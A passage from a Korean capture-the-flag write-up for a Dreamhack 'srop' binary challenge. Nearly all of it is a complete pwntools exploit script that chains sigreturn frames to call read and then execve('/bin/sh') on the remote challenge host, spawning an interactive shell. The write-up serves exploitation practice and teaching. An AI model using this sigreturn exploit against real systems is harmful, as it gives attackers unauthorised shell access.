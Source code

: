 이렇게 두개를 실행할건데,  /bin/sh 는 read 호출 이후에 직접 입력하고 그걸 쓸거다.  

<br>

**최종 익스플로잇 코드**

```python
from pwn import *

context.arch   = 'x86_64'

p = remote('host8.dreamhack.games', 23722)          
e = ELF('./srop')
bss = e.bss()

syscall_gadget = 0x4004eb
syscall = 0x4004ec

print('gadget addr : ', hex(syscall_gadget))

# read(0, bss, 0x1000)
# syscall number : 0
frame = SigreturnFrame()
frame.rax = 0
frame.rdi = 0
frame.rsi = bss
frame.rdx = 0x1000
frame.rip = syscall
frame.rsp = bss

payload = b'A' * 24
payload += p64(syscall_gadget)
payload += p64(15)
payload += bytes(frame)

p.sendline(payload)

# execve(”/bin/sh”,0 ,0)
# syscall number : 0x3b
frame1 = SigreturnFrame()
frame1.rax = 0x3b
frame1.rdi = bss+0x108
frame1.rsi = 0
frame1.rdx = 0
frame1.rip = syscall
frame1.rsp = bss+0x500

payload = p64(syscall_gadget) # 8 bytes
payload += p64(15) #  8 bytes
payload += bytes(frame1) # 8 bytes
print(len(payload))

payload += b'/bin/sh\x00'

p.sendline(payload)
p.interactive()

```
